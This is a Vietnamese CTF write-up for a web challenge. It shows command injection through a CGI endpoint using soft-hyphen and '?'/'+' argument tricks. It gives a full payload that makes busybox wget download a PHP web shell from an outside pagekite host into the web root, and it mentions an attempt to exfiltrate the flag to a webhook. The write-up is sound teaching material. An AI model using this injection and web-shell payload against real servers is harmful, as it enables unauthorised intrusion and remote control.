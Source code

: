 1 cái sử dụng `%AD` (kí tự gạch nối mềm - soft hyphen) và 1 cái sử dụng dấu `?` để thêm argument đầu tiên và các argument tiếp theo chỉ cần dấu `+` (dấu backspace đó). Test thử thôi.

![image](https://hackmd.io/_uploads/H1VlRJlqA.png)
Kết quả thành công. `id -u` ra kết quả `1000` trong `uid=1000(www) gid=1000(www) gr`. 

Check xem trong `/usr/bin` có binary nào có thể sử dụng để lấy flag hay không. Có 1 thứ hay ho ở đây.

```!
/ # ls -la /usr/bin | grep wget
lrwxrwxrwx 1 root root      12 Jul 22 14:34 wget -> /bin/busybox
```

Lúc đầu mình đã loay hoay thử cat luôn flag và gửi luôn sang webhook nhưng mà không được. Nhận ra rằng sử dụng web shell luôn thì hay hơn vì nhớ lại ở trên config vẫn cho up shell mà. (`cat`, và `more` thì đều ở `/bin`, còn `less` thì không dùng được...)

Host file web shell với pagekite.
![image](https://hackmd.io/_uploads/B1P-wxe5A.png)

Payload: `/cgi-bin/wget?https://perritoo.pagekite.me/webshell.php+-O+/var/www/public/webshell.php`
Như đã nói ở trên thì các argument tiếp theo chỉ cần dấu `+`, nếu vẫn thay bằng dấu `?` thì bị lỗi đó. 

![image](https://hackmd.io/_uploads/B1f2wll5A.png)
![image](https://hackmd.io/_uploads/SyfTDeg50.png)

Mở challenge và thực hiện thôi. 
![image](https://hackmd.io/_uploads/rJAV_xg5C.png)
Flag: `TFCCTF{1_4lm0st_f0rg0t_t0_push_th1s_fl4g_t0_th3_c0nt4in3r}`


**Thanks for [this](https://siunam321.github.io/ctf/TFC-CTF-2024/Web/FUNNY/) writeup. **

